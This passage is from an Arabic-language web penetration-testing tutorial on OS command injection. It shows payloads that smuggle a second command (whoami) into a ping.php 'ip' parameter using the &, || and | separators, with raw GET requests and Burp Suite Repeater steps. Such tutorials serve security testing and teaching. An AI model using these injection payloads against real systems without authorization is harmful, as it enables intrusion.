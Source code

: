 - **الأوامر/الإجراءات**:
  - أرسل الطلب في Burp Suite Repeater.
  - قارن الاستجابة مع طلب بدون `&&`.

#### ج. فاصل الأمر (`&`) في Windows
- **الإدخال**:
  ```
  http://example.com/ping.php?ip=127.0.0.1 & whoami
  ```
- **الطلب**:
  ```
  GET /ping.php?ip=127.0.0.1 & whoami HTTP/1.1
  Host: example.com
  ```
- **كيف يعمل**:
  - `&` ينفذ الأمر الثاني بغض النظر عن نجاح الأول في Windows.
  - إذا ظهرت استجابة تحتوي على اسم المستخدم (مثل `Administrator`)، فالثغرة موجودة.
- **متى يُستخدم؟**:
  - عند الاشتباه إن الخادم يعمل بنظام Windows.
- **الأوامر/الإجراءات**:
  - أرسل الطلب في Burp Suite Repeater.
  - تحقق من الاستجابة لظهور اسم مستخدم Windows.

#### د. فاصل الأمر (`||`) في Linux
- **الإدخال**:
  ```
  http://example.com/ping.php?ip=127.0.0.1 || whoami
  ```
- **الطلب**:
  ```
  GET /ping.php?ip=127.0.0.1 || whoami HTTP/1.1
  Host: example.com
  ```
- **كيف يعمل**:
  - `||` ينفذ الأمر الثاني إذا فشل الأول.
  - إذا ظهرت استجابة تحتوي على `www-data`، فالفاصل يعمل.
- **متى يُستخدم؟**:
  - لاختبار سلوك التطبيق إذا كان الأمر الأصلي بيفشل.
- **الأوامر/الإجراءات**:
  - أرسل الطلب في Burp Suite Repeater.
  - جرب مع مدخل غير صالح (مثل `invalid_ip || whoami`).

#### هـ. أنبوب الأوامر (`|`) في Linux
- **الإدخال**:
  ```
  http://example.com/ping.php?ip=127.0.0.1 | whoami
  ```
- **الطلب**:
  ```
  GET /ping.php?ip=127.0.0.1 | whoami HTTP/1.1
  Host: example.com
  ```
- **كيف يعمل**:
  - `|` يمرر مخرجات الأمر الأول إلى الأمر الثاني، لكن في بعض الحالات بينفذ الأمر الثاني مباشرة.
  - إذا ظهرت استجابة تحتوي على `www-data`، فالثغرة موجودة.
- **متى يُستخدم؟**:
  - إذا فشلت الفواصل الأخرى أو كنت عايز تختبر سلوك الأنبوب.
- **الأوامر/الإجراءات**:
  - أرسل الطلب في Burp Suite Repeater.
  - تحقق من الاستجابة.
